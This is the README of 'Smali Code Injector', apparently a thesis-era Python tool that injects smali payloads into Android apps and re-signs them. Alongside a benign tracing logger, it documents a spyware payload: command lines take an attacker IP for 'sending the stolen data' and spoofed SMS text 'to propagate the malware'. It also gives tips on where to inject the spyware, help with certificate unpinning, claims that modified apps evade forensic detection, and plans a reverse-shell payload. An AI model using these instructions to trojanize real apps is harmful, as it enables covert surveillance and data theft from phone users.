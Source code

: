 ![SCI](images/sci_logo.jpg)
# Smali Code Injector
## Automate assembly code (**smali**) injection within Android applications.

The initial ambition of this project was to automate stack trace injections within Android applications in order to facilitate my master thesis work. Being able to log and display applications' runtime method calls along with their returned value greatly helps in reverse engineering complex applications by providing an insight into their logic and workflow. 

Lately, new features and payloads were added in an attempt to create a framework fully capable of injecting any type of assembly code. Users familiar with Android development can easily implement compatible payloads. SCI is in charge of automating low level operation such as registers allocation, dependancie, type, etc. 

*Tampering Android applications has never been that easy!*

More information about Android reverse engineering can be found at:

<http://www.n00blinuxhacker.com/android-pentesting-reverse-engineering-android-app.html>

### Automation for a simpler world
Code injections are performed at the assembly level (smali files) making the differenciation process between legit and modified applications complicated and time consuming - it would require considerable forensic work such as network, permissions, signature and code analysis -.

A high level overview of the steps involved during code injection is:

1. Disassembling the application.
2. Collecting relevant information about the application. 
	* Classes name.
	* Methods name.
	* Registers number and type.
	* etc.
3. Editing the AndroidManifest.xml to add permissions, services and broadcastReceivers (depending on the payload requirements).
4. Injecting and tweaking up the selected payload within the targeted method(s).
5. Reassembling and signing the app with a valid self-signed certificate.

## Usage
### Examples:
Generic usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p [payload] -rh [remote_host] -ppg [spoofed_SMS]
		
	[-a]: 	applicaion to modify.
	[-t]: 	directory/file where to recursively perform the injection. If this argument is absent, the injection is performed within the whole app.
	[-k]: 	keywords to filter on. Ex: if -k "SSL,X509TrustManager" the payload will only be injected on the method containing SSL in their declaration header - **help for certificate unpinning** -.
	[-p]: 	payload to inject. 
	[-ppg]:	spoofed SMS content to send - **to propagate the malware** -.
	[-rh]:  IP address of the attacker/script for sending the stolen data.

Spyware usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p spyware -rh [script] -ppg [spoofed_SMS]
    
	[-ppg]:	link with the malicious app. 
	[-rh]: 	IP of the remote receiver (or URL of the file responsible for the JSON data handling and parsing (a script example can be found under /scripts/handler.php - do not forget to change the settings to connect to your DB -).

*Advice*: Inject the Spyware on the **onCreate()** method of the main activity.

Logger usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p logger

*Note*: Connect your phone to your computer and use the following command to filter and print out only the modified app runtime method calls:

		$ adb logcat | grep "::trace

Identify the main activity - works with obfuscated apps -:

		$ python3 sci.py -a [apps] -s
		
Display the help menu:

		$ python3 sci.py -h

## Dependencies
### Third-party libraries
#### colorama 0.3.7:
The *python3-colorama* package is required. 

<https://pypi.python.org/pypi/colorama>

#### tqdm 4.8.4: 
The *python3-tqdm* package is required. 

<https://pypi.python.org/pypi/tqdm>  

## Future Improvements
* Add new payloads (reverse shell).
* Source code optimisation.

## Project Information
This framework was developed in the context of my master thesis work in July 2015.	

## Licenses
### Smali Code Injector:
   Copyright (C) 2015 Alexandre Teyar

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### Apktool:
   Copyright (C) 2010 Ryszard Wiśniewski 

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### python-progressbar:
   Copyright (C) 2005 Nilton Volpato

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License.

### smali/baksmali:
   Copyright (c) 2010 Ben Gruver (JesusFreke)
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions
are met:

1. Redistributions of source code must retain the above copyright
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright
   notice, this list of conditions and the following disclaimer in the
   documentation and/or other materials provided with the distribution.
3. The name of the author may not be used to endorse or promote products
   derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR
IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES
OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED.
IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY DIRECT, INDIRECT,
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT
NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE,
DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

